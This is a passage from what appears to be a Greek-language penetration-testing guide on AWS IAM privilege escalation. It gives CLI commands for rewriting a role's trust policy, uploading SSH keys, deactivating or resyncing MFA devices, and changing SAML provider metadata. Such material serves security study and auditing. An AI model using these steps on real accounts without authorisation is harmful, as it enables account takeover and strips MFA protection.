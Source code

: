 **Εκμετάλλευση:**
```bash
aws iam update-assume-role-policy --role-name <role_name> \
--policy-document file:///path/to/assume/role/policy.json
```
Όπου η πολιτική μοιάζει με την εξής, η οποία δίνει στον χρήστη άδεια να αναλάβει τον ρόλο:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sts:AssumeRole",
"Principal": {
"AWS": "$USER_ARN"
}
}
]
}
```
**Impact:** Άμεση κλιμάκωση προνομίων με την ανάληψη των δικαιωμάτων οποιουδήποτε ρόλου.

### **`iam:UploadSSHPublicKey` || `iam:DeactivateMFADevice`**

Επιτρέπει την ανέβασμα ενός δημόσιου κλειδιού SSH για την αυθεντικοποίηση στο CodeCommit και την απενεργοποίηση συσκευών MFA, οδηγώντας σε πιθανή έμμεση κλιμάκωση προνομίων.

**Exploit for SSH Key Upload:**
```bash
aws iam upload-ssh-public-key --user-name <username> --ssh-public-key-body <key_body>
```
**Εκμετάλλευση για την Απενεργοποίηση MFA:**
```bash
aws iam deactivate-mfa-device --user-name <username> --serial-number <serial_number>
```
**Impact:** Έμμεση κλιμάκωση προνομίων επιτρέποντας την πρόσβαση στο CodeCommit ή απενεργοποιώντας την προστασία MFA.

### **`iam:ResyncMFADevice`**

Επιτρέπει την επανασυγχρονισμό μιας συσκευής MFA, που μπορεί να οδηγήσει σε έμμεση κλιμάκωση προνομίων μέσω της χειραγώγησης της προστασίας MFA.

**Bash Command:**
```bash
aws iam resync-mfa-device --user-name <username> --serial-number <serial_number> \
--authentication-code1 <code1> --authentication-code2 <code2>
```
**Impact:** Έμμεση κλιμάκωση προνομίων προσθέτοντας ή χειραγωγώντας συσκευές MFA.

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

Με αυτές τις άδειες μπορείτε να **αλλάξετε τα XML μεταδεδομένα της σύνδεσης SAML**. Στη συνέχεια, θα μπορούσατε να εκμεταλλευτείτε τη **συνομοσπονδία SAML** για να **συνδεθείτε** με οποιονδήποτε **ρόλο που την εμπιστεύεται**.
